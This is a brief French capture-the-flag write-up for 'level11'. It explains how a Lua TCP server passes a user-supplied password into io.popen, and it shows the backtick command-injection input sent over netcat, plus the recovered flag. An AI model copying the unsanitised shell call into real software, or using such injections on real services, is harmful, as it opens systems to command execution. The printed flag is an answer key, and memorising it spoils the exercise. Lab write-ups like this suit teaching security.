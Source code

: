 # 11 Commande Injection

*  _Lua_ est un langage de script libre

Ce script implémente un serveur TCP simple qui demande à l'utilisateur un mot de passe. Il hache ce mot de passe avec SHA1 et compare le résultat avec un hachage prédéfini. Si le mot de passe est correct (c'est-à-dire que son hachage correspond à la valeur donnée), le serveur répond par un message de félicitations. Sinon, il répond par un message d'erreur.



### Commandes réalisées

```bash
cat level11.lua
nc localhost 5151
`getflag > /tmp/answer`
cat /tmp/answer
```

### Injection à cause de la vulnérabilité
La vulnérabilité réside dans l'utilisation de io.popen pour exécuter une commande shell avec le mot de passe (pass) directement injecté dans la ligne de commande.

`prog = io.popen("echo "..pass.." | sha1sum", "r")`


### Answer : fa6v5ateaw21peobuub8ipe6s
